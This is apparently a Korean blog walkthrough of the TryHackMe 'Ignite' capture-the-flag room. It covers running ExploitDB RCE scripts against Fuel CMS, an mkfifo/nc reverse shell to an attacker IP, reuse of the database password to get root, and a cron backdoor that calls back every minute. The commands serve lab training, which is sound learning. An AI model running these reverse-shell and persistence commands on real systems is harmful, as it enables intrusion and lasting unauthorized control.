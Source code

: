 <h1>Tryhackme - ignite(2)</h1>

<h2>#3 Exploit</h2>

이전에 searchsploit 으로 취약점을 파악 했다.
RCE와 SQL injection 두가지 설명을 앞서 하였고 이제는 exploit을 할 것이다.
우리가 가지고 있는 정보로 활용해야할 취약점에 대해서 조금만 더 파악하고 가보자.

발견된 취약점은 정말 다양하게 활용이 가능하다.
- 공격된 PC를 내마음대로 조종을 하거나
- 다른 사람의 개인정보를 열람
- 다른 사람이 시킨 주문을 취소하거나 어떤 게시판에 달린 댓글을 삭제하기 등등
취약점에 따라 다르게 활용을 할 수 있다.

내가 하고 있는 취약점은 내가 해킹하는 PC를 어떤 명령어로든 실행을 할 수 있게 할 것이다(RCE를 사용할 것이다.)

취약점을 조사할 때 가장 우선순위로 봐야하는 취약점이 RCE다 RCE는 다른 말로도 표현이 되는데
Remote Code Execution = Code injection = Command Execution = Command injection = overflow 등등

#3.1 RCE활용

RCE를 수행 시켜줄 프로그래밍 코드를 작성해야하는데 칼리리눅스에는 이 취약점들을 이용하여 사용할 수 있는 공격 코드들이 기본적으로 내장되어있다. 만약 이것이 없다면 google에서 검색해서 사용하면 된다

파일의 경로는 `/usr/share/exploitdb/exploits/~` 이곳에 저장되어있다.
경로가 기억이 안나면 `find / -name "47138.py" 2> /dev/null` 

```
ls -l /usr/share/exploitdb/exploits/linux/webapps/47138.py
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ./exploit1.py

cp /usr/share/exploitdb/exploits/linux/webapps/49487.rb ./exploit2.rb

cp /usr/share/exploitdb/exploits/linux/webapps/50477.py ./exploit3.py
```

1. 공격 코드가 txt 일때 -> 취약점을 설명해둔 파일 --> 파일을 가지고 할 순 없고 직접 공격 코드를 만들어 사용하면 됨
2. .py -> python exploit.py
3. .rb -> ruby exploit.rb
4. .c -> c언어 코드로 작성되어서 실행하기 위해선 컴파일을 해야하는데 리눅스에서는 gcc를 이용해서 하면된다 --> gcc exploit.c -o exploit

![이미지](/assets/ignite/5.png)

에러가 발생했는데 여기서 알고 있으면 좋은 점 파이썬은 2가 있고 3가 있는데 이 에러처럼 print옆에 원래 ()이러한 괄호가 들어가는데 만약 괄호가 없으면 python2 이다 이럴땐 `python2` 라고 붙여서 실행하면된다


![이미지](/assets/ignite/6.png)

실행은 되었지만 다시 이상한 에러가 발생했다. HTTPConnectionPool 에러가 발생 -> 뭔가 연결하면서 에러가 발생 한 것인데, 우리가 공격할 IP는 127.0.0.1:8080이 아니라서 코드를 변경해 줘야한다.


ruby 파일을 실행 시키면 docopt가 없다는 에러가 발생하는데 이때는 `gem install docopt` 를 이용하여 설치를 한후에 실행

![이미지](/assets/ignite/7.png)

id 명령어를 정상적으로 실행된 모습
공격한 시스템에서 id라는 명령어가 정상적으로 실행된 모습이다. (내 PC에서의 id 명령어를 실행한 것이 아님.)

![이미지](/assets/ignite/8.png)

3번째 취약점에서도 정상적으로 실행되었다. 
우리가 원하는 shell을 획득한 것이다 하지만 다른 디렉터리로 이동을 하면 이동이 안되는데 이것으로 보아 온전히 완벽히 shell을 획득하지 못한 것이라고 볼 수 있다. 1회용 shell 이라고 보면된다. 자유롭게 사용이 안된다는 것이라서 최고 사용자 권한을 얻기 위해서 작업을 해야한다. 이것을 `POST-Exploit` 이라고 한다.

<h2>#4 Reverse Shell </h2>

이전에는 shell 까지 획득을 하였는데 온전한 shell을 얻기 위해서 `Reverse Shell` 이라는 기법을 사용할 것이다.

#4.1 reverse shell
| reverse shell 은 거꾸로 연결을 받는다 라는 뜻이다.

기본적으로 악성코드를 설치할 때는 공격 타켓에 설치를 하고 프로세스를 실행하여 열린 포트로 접근을 하는데 이것을 `Bind Shell` 이라고 한다. 이것을 거꾸로 하는 것을 reverse shell 이라고 하는데
왜 거꾸로 하는가??
-> 악성 프로세스를 실행시키면 피해자 PC에서 특정 포트를 여는 것 자체가 의심스럽고 또한 방화벽이라는 보안 장치가 실행되고 있어 뚤리지 않을 것이다. 그래서 `Bind Shell`은 잘 먹히지가 않을 것이다.

reverse shell은 반대로 공격자 측에서 포트를 여는 것이다. 즉 프로세스를 피해자 PC에서 실행 시키는 것이 아닌 공격자 PC에서 실행시킨 후에 공격자 PC의 포트로 연결되도록 악성코드를 만들어 피해자에서 실행시켜서 컴퓨터를 연결하는 기법이다.

*흔히들 방화벽에서는 인바운드 규칙은 굉장히 디테일하게 까다롭게 하지만 아웃바운드 규칙은 까다롭게 하지 않거나 아예 설정조차 하지 않는 허점을 이용해서 해킹을 하는 것이다.*

#4.2 활용

1. 공격자 컴퓨터에서 포트를 열고 있기.
 - `nc -nlvp` : 특정 포트를 열겠다.

 ![이미지](/assets/ignite/9.png)

2. 피해자 PC에서 공격자 PC로연결을 한다.
 - google 에서 reverse shell cheat sheet 라고 검색한 후에 코드 획득
 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f` nc mkfifo를 사용 (피해자 PC에서 명령어 입력)

 ![이미지](/assets/ignite/10.png)
 이 모습이 reverse shell을 획득한 모습이다. 이 상태에서는 디렉터리 경로도 이동이 가능하다 하지만 아직도 살짝 부족한 점이 있다면 최고 사용자(root) 사용자가 아닌 것이다.

<h2>#5 Post-Exploit </h2>

내가 접속한 컴퓨터를 정말 내것을 완전 내것으로 만드는 작업이다.
대표적으로 *권한 상승* & *Back Door* 심기를 해 볼것이다.

#5.1 권한 상승

정말 많은 방법이 있지만 기본적인 원리는 이 시스템에서 존재하는 정보들을 활용해서 권한을 상승시킬 수 있는 요소를 파악하는 것이다. 그러기 위해선 이 시스템을 먼저 파악해야한다.

1. 계정 정보 확인 (/etc/passwd)
 - `cat /etc/passwd | grep sh` 
 - 계정에 root 계정 하나 밖에 없지만, 만약 마리오계정(일반사용자 계정)이 있으면 마리오계정을 해킹한 다음에 root로 올라갈 수도 있는 방법이 있다.

2. fuel 웹 페이지를 사용하고 있기 때문에 fuel 디렉터리에 들어가 확인
 - ![이미지](/assets/ignite/11.png)
 - 웹 서버를 해킹 했다면 가장 먼저 찾아야 하는 것은 DB에 대한 정보이다. 그래서 DB정보에 대한 것은 핵심적인 디렉터리에 보면 무조건 있을 수 밖에 없다(연동이 되려면 DB에 대한 정보를 가지고 있어야 연동이 되기 때문에)

3. DB 계정 정보 찾기
 - 보통 설정 파일에 많이 있음
 - `find ./ -name "*conf* 2> /dev/null`
 - ![이미지](/assets/ignite/12.png)
 - modules는 모듈이기 때문에 아마 없을 것이고, application 부분에 있지 않을까 라는 생각이 든다
 - application/config 안에 보면 database.php 라는 파일이 있는데 역시나 db에 대한 정보가 들어가 있었다.
 - ![이미지](/assets/ignite/13.png)
 - db의 아이디가 root 이다..나는 권한 상승을 하기 위해서 root 계정으로 로그인해야하는데 db의 패스워드가 혹시 root의 패스워드 이지 않을까?? 라는 것을 `크리덴셜 스터핑` 이라고 한다. (실제로 공격률이 높다고 한다. 나 또한 똑같은 비밀번호를 돌려 쓰기 때문이다)

4. DB 정보로 root 사용자 로그인 해보기
 - ![이미지](/assets/ignite/14.png)
 - `su root` 로 전환을 해보려 했지만 실패 했다. 이 에러를 해결해주기 위해서 자주 사용해야할 명령어가 있다. 쉘을 얻었는데 인터렉티브한 쉘을 얻지 못했을 때 사용하면 된다.
 - `python -c "import pty;pty.spawn('/bin/bash')"`
 - ![이미지](/assets/ignite/15.png)
 - 최고 사용자 까지 획득을 하였다.

권한 상승의 원칙
1. 이 시스템에서 얻을 수 있는 정보를 찾는다
2. 만약 정보를 찾을 수 없다면 DB안에 있는 정보를 보거나 OS 버전 정보를 찾아 `privilege escalation` (권한 상승) 취약점을 찾아 실행을 해주면된다.

#5.2 Back Door 설치

이 시스템에 또 들어오기 위해서 똑같은 작업을 반복하게 하지 않게 하기 위해서 Back Door를 설치한다.
cron을 이용하여 실행할 것인데, 리눅스에서 사용하는 스케쥴 시스템이다.

1. cron 에 추가하기
 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f`이 명령어를 1분 마다 실행하게 만들 것이다.
 - /etc/crontab에서 설정할 수 있다.
 - `echo "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f" >> /etc/crontab` -> 매 분마다 root 권한으로 명령어를 실행시켜줘.
 - ![이미지](/assets/ignite/16.png)

2. 다시 재접속 하기
 - crontab에 넣어졌기 때문에 이제 1분마다 명령어가 실행되기 때문에 언제든지 들어갈 수 있게 된다.
 - 재접속 할땐 `nc -nlvp 5555` 명령어를 통해서 접속을 하면 된다.


정리
Post-exploit은 exploit(shell 획득)이후에 일어나는 모든 행동을 post-exploit 단계에 넣을 수 있다.
권한 상승이나 백도어 설치는 정말 일부에 불과하다. 다른것은 무엇을 할 수 있냐면 이 시스템 옆에 있는 다른 연결된 PC를 공격할 수도 있거나 중요한 파일을들 가져오거나 랜섬웨어를 걸 수도 있을 것이고 등등 다양한 작업들을 Post-exploit으로 이야기 할 수 있을 것이다.











